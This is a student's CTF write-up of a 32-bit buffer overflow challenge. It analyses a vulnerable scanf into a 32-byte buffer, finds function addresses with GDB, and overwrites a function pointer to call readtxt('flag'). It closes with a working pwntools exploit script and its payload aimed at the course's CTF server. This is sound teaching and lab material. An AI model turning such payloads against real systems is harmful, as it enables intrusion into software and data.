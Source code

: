 # CTF Week #5 (Buffer Overflow)

## Exploring

For this CTF, we were given the zip file containing: 
 - an exacutable program that is running on the server (`program`)
 - the source code of the executable (`main.c`)
 - a python script (`exploit-template.py`)

One of the first we can do is run `checksec program` to discover more information about the executable and find if it has any countermeasures.

<p align="center" justify="center">
  <img src="./assets/CTF5/step1.png"/>
</p>

From the output, we understand that:
* The architecture is x86 with a 32-bit address space.
* The screenshot shows that there is protection on the return address (stack canary), but this only appeared on some computers and shouldn't influence the overall CTF.
* The NX (No eXecute) bit is disabled, meaning we can execute code on the stack.
* The program is not compiled as Position-Independent Executable (PIE).
* There are segments with both Read, Write, and Execute (RWX) permissions.

## Code Analysis

Analysing the source code given, we can see that:
1. The program has a function `readtxt(char* name)` that takes a file name as input and reads it using the `cat` command. The filename, without the extension, should be fewer than 6 characters.
2. If we can set the parameter `name` in the `readtxt` function and invoke it by modifying the `fun` function pointer, we will be able to get the flag.
3. There is a buffer overflow vulnerability in the code:
    * On line 18, a buffer is defined with a size of 32 bytes: `char buffer[32];`.
    * On line 26, the program uses `scanf("%45s", &buffer);`, which reads up to 45 bytes from standard input into the buffer, allowing for a potential overflow.

## Attack

Based on the previous analysis, our idea was to overwrite the `fun` function pointer to point to `readtxt` and set the parameter to "`flag`". That way, the code would continue its "normal" execution and run the function `readtxt(flag)`.

### Step 1: Locate the `fun` Pointer

First, we run GDB and found addresses of `readtxt` and `echo` functions:

<p align="center" justify="center">
  <img src="./assets/CTF5/step2.png"/>
</p>

* The address of `readtxt` is `0x080497a5` 
* The address of `echo` is `0x080497e3`

Then, we set a breakpoint at line 23, where the `fun` pointer is assigned, and examine the first 45 bytes of the `buffer` (as we can manipulate them using the buffer overflow):

<p align="center" justify="center">
  <img src="./assets/CTF5/step3.png"/>
</p>

We observed that at stack address `0xffffd040`, the first 4 bytes were changing between the addresses of `readtxt` (`0x080497a5`) and `echo` (`0x080497e3`). This confirmed that the memory location corresponds to the fun variable.

### Step 2: Setting the Parameter to `"flag"`

To exploit the vulnerability, we will set the `fun` function pointer to `readtxt` using the payload: `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa5\x97\x04\x08` with 32 bytes and address of `readtxt`
> Note: address of `readtxt` - `0x080497a5` is written as `\xa5\x97\x04\x08` in little-endian format.

After running the payload, we got the following output:

<p align="center" justify="center">
  <img src="./assets/CTF5/step4.png"/>
</p>

The program attempted to open a file named `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'$'\245\227\004\b` so we can set first bytes to string `flag` and use `\0` to mark the end of the string.

With this payload, we successfully retrieved the flag:

<p align="center" justify="center">
  <img src="./assets/CTF5/step5.png"/>
</p>

## Submit on server

As a last step we needed to uncomment line 5 to use with a server.
The final version of `exploit-template.py` is:

```py
from pwn import *

r = remote('ctf-fsi.fe.up.pt', 40964)

payload =  b"flag\0AAAAAAAAAAAAAAAAAAAAAAAAAAA\xa5\x97\x04\x08" 
r.recvuntil(b"flag:\n")
r.sendline(payload)

buf = r.recv().decode()
print(buf)
```

When running the exploit, we obtained the flag:

<!-- TODO: Obfuscate the flag -->
<p align="center" justify="center">
  <img src="./assets/CTF5/step6.png"/>
</p>